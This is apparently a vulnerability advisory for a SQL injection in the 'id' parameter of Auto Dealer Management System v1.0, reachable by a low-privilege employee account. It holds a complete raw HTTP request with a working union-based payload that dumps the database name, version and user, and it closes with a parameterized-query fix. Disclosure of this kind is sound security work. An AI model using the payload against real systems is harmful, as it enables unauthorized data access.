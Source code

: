 # Auto Dealer Management System - SQL Injection on page view_transaction.php and parameter is id, application url is (?page=vehicles/view_transaction&id=?) with low privilege authentication

### Date: 
> 18 February 2023
### Author Name: 
> Muhammad Navaid Zafar Ansari
### Author Email: 
> navaidnasari@hotmail.co.uk
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [Auto Dealer Management System](https://www.sourcecodester.com/php/15371/auto-dealer-management-system-phpoop-free-source-code.html)
### Version:
> v 1.0
### SQL Injection
> SQL Injection is a type of vulnerability in web applications that allows an attacker to execute unauthorized SQL queries on the database by exploiting the application's failure to properly validate user input. The attacker can use this vulnerability to bypass the security measures put in place by the application, allowing them to access or modify sensitive data, or even take control of the entire system. SQL Injection attacks can have severe consequences, including data loss, financial loss, reputational damage, and legal liability. To prevent SQL Injection attacks, developers should properly sanitize and validate all user input, and implement strong security measures, such as input validation, output encoding, parameterized queries, and access controls. Users should also be aware of the risks of SQL Injection attacks and take appropriate measures to protect their data.
### Affected Page:
> view_transaction.php

> On this page id parameter is vulnerable to SQL Injection Attack

> URL of the vulnerable parameter is: ?page=vehicles/view_transaction&id=*
### Description:
> The auto dealer management system supports two roles of users, one is admin, and another is a normal employee. the detail of role is given below
+ Admin user has full access to the system 
+ Employee user has only a few menu access i.e. dashboard, car models and vehicle (available and transaction)
> Employee could perform the SQL Injection by viewing the vehicle transaction from his/her profile. Therefore, low-privileged users could able to get the access full system.
### Proof of Concept:
> Following steps are involved:
+ An employee view the vehicle transaction and could perform the SQL injection with vulnerable parameter (?page=vehicles/view_transaction&id=5*)
### Request:
```
GET /adms/admin/?page=vehicles/view_transaction&id=5%27+and+false+union+select+1,2,3,4,5,6,7,8,9,database(),version(),12,13,user()--+- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.75 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=c1ig2qf0q44toal7cqbqvikli5
Connection: close
```

### Response:
![image](https://user-images.githubusercontent.com/123810418/219882001-6031474c-b28b-4401-b282-6ff470086be3.png)

### Recommendation:
> Whoever uses this CMS, should update the code of the application in to parameterized queries to avoid SQL Injection attack:
```
Example Code: 
$sql = $obj_admin->db->prepare("SELECT *, concat(firstname,' ',COALESCE(concat(middlename,' '), ''), lastname) as customer from `transaction_list` where id = :id ");
$sql->bindparam(':id', $id);
$sql->execute();
$row = $sql->fetch(PDO::FETCH_ASSOC);
```
Thank you for reading
